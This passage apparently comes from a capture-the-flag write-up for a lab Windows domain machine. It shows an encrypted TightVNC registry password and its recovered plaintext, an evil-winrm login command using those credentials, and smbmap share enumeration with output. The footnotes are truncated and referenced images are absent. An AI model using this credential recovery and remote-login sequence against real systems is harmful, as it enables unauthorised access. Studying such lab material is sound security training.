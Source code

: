 ```cat VNC\ Install.reg 
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

The encrypted password is listed in hexadecimal :

`"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`

The file we found is actually an excerpt from the registry entries
related to *TightVNC* on the box. The password is encrypted with
`DES`[^4] and can be decrypted with tools like *VNC Password
Recovery*[^5] :


From the folder structure on the share, this is most likely *s.smith*'s
password. Another file we find on the share in
`\\10.10.10.182\Data\IT\Email Archives\` is the email
`Meeting_Notes_June_2018.html` :


The email contains a hint towards the *Administrator* account :



### User flag

With *s.smith*'s password **sT333ve2**, we're able to log onto the box
via `evil-winrm` with
`evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2` :



Root
----

### More `SMB` enumeration

With *s.smith*'s credentials, we're back to enumerating[^6] `smb` :

``` 
smbmap -u s.smith -p sT333ve2 -d cascade.local -H 10.10.10.182
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.182...
[+] IP: 10.10.10.182:445	Name: cascade.local                                     
Disk                                  	Permissions	Comment
----                                  	-----------	-------
ADMIN$                                	NO ACCESS	Remote Admin
.                                            
dr--r--r--        0 Wed Jan 29 13:01:26 2020	.
dr--r--r--        0 Wed Jan 29 13:01:26 2020	..
fr--r--r--    13312 Tue Jan 28 16:47:08 2020	CascAudit.exe
fr--r--r--    12288 Wed Jan 29 13:01:26 2020	CascCrypto.dll
dr--r--r--        0 Tue Jan 28 16:43:18 2020	DB
fr--r--r--       45 Tue Jan 28 18:29:47 2020	RunAudit.bat
fr--r--r--   363520 Tue Jan 28 15:42:18 2020	System.Data.SQLite.dll
fr--r--r--   186880 Tue Jan 28 15:42:18 2020	System.Data.SQLite.EF6.dll
dr--r--r--        0 Tue Jan 28 15:42:18 2020	x64
dr--r--r--        0 Tue Jan 28 15:42:18 2020	x86
Audit$                                    	READ ONLY	
C$                                        	NO ACCESS	Default share
```

[^1]: Simply hit `enter` when prompted for a password.
[^2]: Available in its online version at
[^3]: Output slightly modified for readability.
[^4]: For further information on *VNC* passwords and how to retrieve and
[^5]: <https://securityxploded.com/vnc-password-recovery.php>, last
[^6]: Output slightly modified for readability.
[^7]: I used a program that ships with *Kali*, `DB Browser for SQLite`,
[^8]: Personally, I like *Jetbrain*'s *dotPeek* a lot :
[^9]: Of course, the *Chef* isn't the only tool up to the task - you
[^10]: At this point, I wasn't too sure where the journey would lead me
[^11]: For more information on restoring deleted *Active Directory*